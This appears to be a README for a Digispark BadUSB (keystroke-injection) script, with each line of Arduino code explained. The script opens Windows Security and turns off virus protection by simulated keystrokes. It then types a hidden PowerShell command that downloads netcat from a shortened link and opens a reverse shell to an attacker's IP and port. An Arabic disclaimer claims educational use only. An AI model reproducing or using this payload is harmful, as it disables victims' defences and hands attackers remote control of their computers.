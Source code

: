 This script uses the DigiKeyboard library to automate keystrokes and input text. Here is a breakdown of each line of code:

#include "DigiKeyboard.h"   This line includes the DigiKeyboard library.

void setup() {          This line starts the setup function.

DigiKeyboard.delay(1000);       This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_S,MOD_GUI_LEFT);  This line sends a key press for the S key with the left GUI (Windows) key modifier.

DigiKeyboard.delay(1000);  This line pauses the script for 1 second.

DigiKeyboard.print("virus & threat protection");   This line inputs the text "virus & threat protection".

DigiKeyboard.delay(500);   This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);    This line sends a key press for the Enter key.

DigiKeyboard.delay(5000);    This line pauses the script for 5 seconds.

DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);    These four lines send key presses for the + key four times, which opens the settings menu in Windows 10.
DigiKeyboard.sendKeyStroke(43);
DigiKeyboard.sendKeyStroke(43);

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key.

DigiKeyboard.delay(700);   This line pauses the script for 0.7 seconds.

DigiKeyboard.sendKeyStroke(KEY_SPACE);   This line sends a key press for the Space key.

DigiKeyboard.delay(2000);    This line pauses the script for 2 seconds.

DigiKeyboard.sendKeyStroke(KEY_Y,MOD_ALT_LEFT);   This line sends a key press for the Y key with the left Alt key modifier.

DigiKeyboard.delay(1000);   This line pauses the script for 1 second.

DigiKeyboard.sendKeyStroke(KEY_F4 , MOD_ALT_LEFT);  This line sends a key press for the F4 key with the left Alt key modifier, which closes the current window.

DigiKeyboard.delay(500);     This line pauses the script for 0.5 seconds.

DigiKeyboard.sendKeyStroke(KEY_R,MOD_GUI_LEFT);   This line sends a key press for the R key with the left GUI (Windows) key modifier, which opens the Run dialog box.

DigiKeyboard.delay(700);  This line pauses the script for 0.7 seconds.

DigiKeyboard.print("powershell curl -o netcat.exe https://bit.ly/3G3R1d1 ; powershell -w hidden netcat.exe <ip> <port> -e powershell.exe");  This line inputs a PowerShell command that downloads and executes the netcat.exe tool, which can be used for remote command execution.


DigiKeyboard.sendKeyStroke(KEY_ENTER);  This line sends a key press for the Enter key, which executes the PowerShell command.
 
void loop() {} This line starts the loop function, which is empty in this script. The loop function is not used in this script.
 



تحذير
كل شيء في هذا المستودع مخصص للأغراض التعليمية فقط. لاحظ أنني لست مسؤولاً عن البيانات المسروقة. أنت مسؤول عن أفعالك باستخدام البرنامج النصي المطور لـ BadUSB

 

 



 

 






 





 






























